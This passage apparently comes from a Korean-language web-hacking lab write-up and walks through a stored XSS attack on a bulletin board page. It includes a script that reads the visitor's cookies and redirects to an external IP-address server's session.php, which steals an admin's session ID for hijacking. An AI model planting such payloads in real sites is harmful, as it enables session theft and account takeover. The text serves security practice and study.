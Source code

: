 Admin 패스워드를 변경하는 데 성공했지만 다음 취약점들은 패스워드를 모르는 상태라고 가정한다. 

3. 게시판 페이지 
3. Stored XSS 
- Aws를 이용한 외부 서버 준비(for 세션 하이재킹)  

![](img/Aspose.Words.8937c5dc-ffaa-4ae4-8e38-164418a9c473.004.jpeg)

![](img/Aspose.Words.8937c5dc-ffaa-4ae4-8e38-164418a9c473.005.jpeg)

글쓰기 

![](img/Aspose.Words.8937c5dc-ffaa-4ae4-8e38-164418a9c473.006.jpeg)

<script> 

var cookieData=document.cookie; 

setTimeout(() => location.href=`http://44.203.182.159/session.php?data=${cookieData}`, 3000); </script> 

Admin이 글에 접속하면 3초 뒤 해킹서버로 세션아이디 전송 (세션 하이재킹) 

![](img/Aspose.Words.8937c5dc-ffaa-4ae4-8e38-164418a9c473.007.jpeg)
